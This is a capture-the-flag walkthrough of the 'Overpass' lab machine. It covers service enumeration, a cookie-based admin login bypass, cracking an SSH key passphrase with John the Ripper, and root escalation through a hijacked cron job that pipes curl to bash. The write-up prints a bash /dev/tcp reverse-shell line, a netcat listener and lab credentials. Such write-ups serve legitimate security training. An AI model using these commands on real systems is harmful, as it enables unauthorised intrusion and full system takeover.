# Overpass

##### Written: 21/05/2021

#### IP address: 10.10.138.135

First I ran a **nmap scan** to enumerate the services that are running on the target machine. The command used is:

```bash
sudo nmap -sC -sV -vv -oN nmap_initial 10.10.138.135
```

 **Results:**



From the results, we can see that there are two open ports on the machine: **ssh** and **http**.

Navigating to the HTTP webserver, I can see the following page:



Before carrying out a happy-path enumeration, I shall use **Gobuster** to see if I can enumerate any hidden directories. The command used is as such:

```bash
gobuster dir -u http://10.10.138.135/ -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Note that I made sure to check for common extensions such as **.php** in my directory enumeration.

With Gobuster up and running, I can then begin to explore the page.

The first thing I did was to check the source code of the home page. Doing so, I noticed an interesting comment that was left behind by one of the web developers:



This seems to imply that their 'military grade cryptography' is actually one that was used by Romans...Furthermore, it doesn't seem to be very secure by the looks of it.

Could it be the **Caesar Cipher**? I will keep this in mind for now!


Next, on the 'Downloads' page, there are some files that we can download. Interestingly, they actually provide the **source code** for their password manager! I made sure to download it, as well as the **Build Script** and the **Precompiled Linux Binary**.



Before looking at those files, let me check on the results of Gobuster:



Nice, Gobuster managed to find an **admin login page**:



I tried some basic SQL injections but they did not work. However, I realised that the login functionality was actually exposed in the **login.js** file that was enumerated! 



Looking more closely at the **login()** function, it seems that the credentials that are inputted at the login screen are sent in a POST request to an endpoint **'/api/login'**. The response is then received and the data inside is stored in a variable **statusOrCookie**. There is then a check to verify whether the user is authenticated or not. However, looking at the **else** statement which authenticates the user, if we simply create a **SessionToken** cookie and set any random value,  we will be redirected to the **/admin** page! 

Let's test this out in the developer tools > Storage. In there, I created a cookie called SessionToken and assigned a value to it.



Upon refreshing the page, I have gained access into the administrator panel!



We have an RSA private key, which will probably be used to log into the ssh server that is also running on the machine. The username that uses this key could also be **James**, as he is mentioned explicitly in the message.

Let's copy this private key and try to ssh into the machine.



Unfortunately we need to find out the **passphrase** for the RSA key. We can try a dictionary attack using **John the Ripper**, which is a password cracking tool. First, we need to convert the RSA key into a hash that can be cracked by JTR. To do so, we use an auxiliary tool called **ssh2john**. This can be done with the following command:

```bash
python /usr/share/john/ssh2john.py key_rsa > key_rsa.hash 
```

*Note that python3 does not execute ssh2john properly!*

Now, we can use JTR with the rockyou.txt wordlist and try to crack the passphrase:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt key_rsa.hash
```

**Results**



Nice! James's private key passphrase is **james13**. Now we can log into the ssh server!



#### With that, we can obtain the user flag from user.txt!

---

Next, we have to a way to escalate our privileges. 

First, I checked out the **todo.txt** file located in the home directory of James.



Nice, looks like James's password is stored in the password manager that he implemented. I used the **find** command to located the overpass binary on the target machine.

```bash
find / -name overpass 2>/dev/null
```

The binary was found in **/usr/bin/overpass**

I executed the binary and managed to obtain James's password by retrieving all of the saved passwords:



James password is **saydrawnlyingpicture**

Next, I'll try and see what **sudo privileges** James has on this machine.

 


Uh oh, looks like James does not have any sudo privileges at all... I will have to try another path of privilege escalation.

To automate the process, I'll be using **linpeas**, which is a privilege escalation automation script. After running the script, linpeas managed to automate a high potential PE vector!



The *** * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash** refers to a **cronjob**, which generally has the following format:

**eg**



Essentially, the ***** symbols dictate the frequency of the cronjob. If the user to execute the command/binary is to be set, then their name will be placed right after the symbols. Then, the command to run during each interval will be placed after that. In the case of the example above, the **rm /home/someuser/tmp/*** command will run **every minute** (as shown by 5 * symbols)


How about the cronjob that was found by linpeas?



Hence, this cronjob curls a **buildscript.sh** file from **overpass.thm/downloads/src**  every minute and executes it as it pipes it over to bash. The important thing to note is that this command is **executed as root**! We can exploit this vulnerability by creating our own bashscript.sh which sets up a **reverse shell** that connects back to our host machine. Since our buildscript.sh is piped over to bash and executed as root, the reverse shell that we obtain will be root as well.

Let's set this up!

First, I needed to know what ip address **overpass.thm** points to. Looking at the **/etc/hosts** file on the target machine, we can actually see that overpass.thm points to localhost:



I changed the IP address associated with this domain to my own IP address. Now, every time a request is made to overpass.thm, the target machine will check the /etc/hosts file and direct the request to my machine instead.


Next, I created a bash script called **buildscript.sh** with the following command inside:

```
bash -i >& /dev/tcp/xx.xx.xx.xx/8080 0>&1
```

This is a basic reverse shell command that makes a connection back to port 8080 of my local host.

Next, I placed this script inside a **/downloads/src** directory within my machine. I then started up a simple http server on **port 80** using python.

Finally, I also set up a netcat listener on port 8080 using the command:

```bash
nc -lvnp 8080
```


Hence, once a minute passes, the target machine will curl my created **buildscript.sh** and execute it as root, setting up a reverse shell which my netcat listener is currently listening out for.



After a minute passed, we can see that my buildscript.sh was indeed curl'ed by the target machine.



And with that, I have gained access to the target machine as **root**!

#### I can then obtain the root flag from root.txt

